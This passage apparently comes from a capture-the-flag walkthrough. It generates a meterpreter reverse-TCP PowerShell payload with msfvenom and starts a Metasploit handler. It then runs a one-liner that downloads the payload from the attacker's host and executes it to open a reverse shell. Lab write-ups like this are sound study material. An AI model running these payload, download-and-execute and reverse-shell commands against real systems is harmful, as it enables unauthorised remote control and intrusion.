 #### Metasploit

Metasploit has a very nice, built in, exploit suggester. I'll need a
meterpreter shell. First, generate some PowerShell as a loader:



    root@kali# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=445 -f psh -o www/met-445.ps1
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 510 bytes
    Final size of psh file: 3216 bytes
    Saved as: www/met-445.ps1



The `-f psh` will output a PowerShell command that will initiate a
reverse tcp meterpreter shell.

Start `exploit/multi/handler`:



    msf exploit(multi/handler) > options

    Module options (exploit/multi/handler):

       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------


    Payload options (windows/x64/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.10.14.5       yes       The listen address (an interface may be specified)
       LPORT     445              yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target


    msf exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.5:445



Now get and run PowerShell launcher from my Nishang shell:



    PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.5/met-445.ps1')
    1748



And get meterpreter:
